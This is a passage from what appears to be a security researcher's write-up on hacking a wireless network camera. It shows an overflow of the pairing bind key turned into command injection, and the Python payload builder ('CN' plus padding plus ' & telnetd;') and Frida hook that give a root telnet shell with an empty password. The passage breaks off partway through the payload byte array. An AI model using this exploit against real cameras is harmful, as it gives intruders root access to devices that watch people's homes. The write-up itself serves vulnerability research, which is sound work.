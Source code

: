 To hit the **webapi_do_check_did** call, the first 2 characters of the bind key need to be "CN" - luckily they don't check that the length is 2. If we get into the **webapi_do_check_did** call, we see the following:

![injection_point.png](/assets/images/analysing_a_wireless_network_camera_part_5/injection_point.png)

We see a command being constructed with a few values, the value that is stored at **0x5227b8** is the key value that we have overwritten, which turns the overflow we found into a command injection! The only drawback of this method is that you need to host an access point that does not have an internet connection, I used a router for this.

What can we actually do with this? All we need to do is run **telnetd** on the device and we get a root shell, the username is **root**, and the password is empty. We can monitor devices that have connected to our access point, have another device on the network, and simply login to the telnet session while the camera gets stuck in the while loop waiting for a successful connection that will never happen! Here is the python code that generates the hook payload:

```
-python
def get_sonic_bug_2_frida_hook():
	bind_key = b'CN' + b'a' * 62 + b' & telnetd;'
	ssid = b'wifi_1C98B0'
	pwd = b'helloworld'
	  
	# send in a large bind key, overflow the did, make command do something interesting
	payload_bytes = bind_key + b'\n' + ssid + b'\n' + pwd
	  
	info(f"Payload length: {len(payload_bytes)}")
	  
	if len(payload_bytes) >= 128:
	info("TOO BIG!!")
	  
	return 'let payload = [\n' + as_javascript_array(payload_bytes) + '];'
```

This bug/exploit is much nicer than the previous as it doesn't need to fetch any memory information beforehand, you can just walk up to the camera with a rogue access point, play the sound, login to telnet on the camera, and you've got a root shell! Here is the hook that does the damage:

```
-javascript
let PcmUtil = Java.use("com.ants360.yicamera.util.PcmUtil");
	PcmUtil["genPcmData"].implementation = function (str, str2, i, bVar) {
	console.log(`PcmUtil.genPcmData is called: str=${str}, str2=${str2}, i=${i}, bVar=${bVar}`);
	
	let payload = [
		0x43, 0x4e, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
		0x61, 0x61, 0x61, 0x61,
```